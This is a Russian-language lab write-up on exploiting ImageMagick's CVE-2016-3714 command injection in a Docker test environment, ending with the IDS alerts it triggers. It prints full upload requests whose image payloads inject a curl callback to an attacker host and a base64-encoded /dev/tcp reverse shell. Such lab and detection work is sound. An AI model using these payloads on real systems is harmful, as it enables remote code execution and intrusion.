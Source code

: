 # Imagemagick Command Injection

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714)
* [https://www.opencve.io/cve/CVE-2016-3714](https://www.opencve.io/cve/CVE-2016-3714)

ImageMagick — это широкий набор инструментов для обработки изображений, многие производители называют эту программу для обработки изображений, включая масштабирование, обрезку, установку водяных знаков, преобразование формата и многого другого. Однако некоторые исследователи обнаружили, что когда пользователь переходит к изображению, содержащему «деформированный контент», это может вызвать уязвимости внедрения команд.

Сотрудники внешней безопасности создали для этого веб-сайт: https://imagetragick.com/ с подробным описанием уязвимости и способах её эксплуатации

### Эксплуатация уязвимости

Для запуска PHP-сервера, включающего в себя Imagemagick 6.9.2-10, выполните команду:

```
docker compose up -d
```

После запуска сервера по адресу `http://ваш-ip:8080/` будет доступна страница с возможностью загрузки файлов

<figure><img src="../../.gitbook/assets/imagetragick(1).png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно отправить POST-запрос с полезной нагрузкой:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 312

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "10.10.11.130:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

Видно, что после его отправки мы получили http-запрос

<figure><img src="../../.gitbook/assets/imagetragick(2).png" alt=""><figcaption></figcaption></figure>

С помощью данной уязвимости мы можем получить обратную оболочку, отправив следующий запрос:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 378

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= | base64 -d | bash`"||id " )'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

\*\*\*

Здесь c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= - это закодированная в base64 полезная нагрузка для получения обратной оболочки

<figure><img src="../../.gitbook/assets/imagetragick(3).png" alt=""><figcaption></figcaption></figure>

Сгенерировать свою собственную нагрузку можно на [https://www.revshells.com/](https://www.revshells.com/)

<figure><img src="../../.gitbook/assets/imagetragick(4).png" alt=""><figcaption></figcaption></figure>

\*\*\*

После отправки запроса с созданным пэйлоадом мы можем получить обратную оболочку поднятого контейнера

<figure><img src="../../.gitbook/assets/imagetragick(5).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/imagetragick(6).png" alt=""><figcaption></figcaption></figure>
